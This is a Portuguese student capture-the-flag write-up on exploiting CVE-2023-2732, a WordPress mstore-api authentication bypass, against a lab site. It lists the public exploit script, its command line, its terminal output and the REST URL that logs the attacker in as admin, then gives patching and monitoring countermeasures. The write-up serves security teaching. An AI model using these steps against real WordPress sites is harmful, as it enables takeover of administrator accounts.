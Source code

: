 # CTF Semana #3 (Wordpress CVE)

## CVE-2023-2732

**1. Como construíste o ataque?**<br>
Para descobrir de qual CVE se tratava, investiguei a versão wordpress do site que era 5.8.1 e a versão dos plugins, nomeadamente da mstore-api que era 1.0.0 e do woocomerce que era 5.7.1. Com esta informação, procurei exploits anteriormente feitos a este CVE. [1]

Em segundo lugar, tive de fazer clone ao repositório https://github.com/RandomRobbieBF/CVE-2023-2732.
De seguida, instalei os requisitos que se encontram no ficheiro requirements.txt deste repositório com o comando 'pip install click requests'.

Depois inseri o comando 'python3 mstore-api.py -u  http://143.47.40.175:5001/' com o link do site ao qual pretendia fazer o exploit.

Após inserir este comando, apareceu no terminal:<br> 
'The plugin version is below 3.9.3.<br>
Select a user:<br>
1.admin<br>
Enter the user ID:'

Introduzi '1' em 'Enter the user ID:' e o terminal mostrou o seguinte:<br>
'Congratulations a vulnerable system has been found.

<img src="images/image.png" width="900" height="700"><br>

How to Exploit:

Visit the following url: http://143.47.40.175:5001//wp-json/wp/v2/add-listing?id=1<br>
Visit  http://143.47.40.175:5001/ and you should be logged in as the user you have chosen.'<br>
Ao carregar no segundo link fui direcionada para o site já com o registo feito numa conta admin, na qual tive acesso a todos os privilégios que users regulares não possuem.


**2. De que vulnerabilidade abusaste?**<br>
A CVE-2023-2732 é uma vulnerabilidade de segurança identificada no plugin mstore-api para WordPress. A vulnerabilidade permite que usuários não autenticados acedam a informações sensíveis através da API REST do WordPress.[2]

**3. Que contramedidas poderiam ter evitado que tivesses tido sucesso?**<br>
Esta vulnerabilidade afeta versões específicas do plugin mstore-api (inferiores à 3.9.3). Manter o plugin atualizado para a versão mais recente, onde a vulnerabilidade já foi corrigida, teria prevenido o exploit.
Além disto, utilizar serviços de monitorização que alertam sobre vulnerabilidades nos plugins WordPress ajuda a manter as instalações seguras e permite que administradores corrijam falhas rapidamente.[3]

[1]https://www.cvedetails.com/cve/CVE-2023-2732/ <br>
[2]https://nvd.nist.gov/vuln/detail/CVE-2023-2732 <br>
[3]https://s4e.io/tools/mstore-api-3-9-2-authentication-bypass-cve-2023-2732

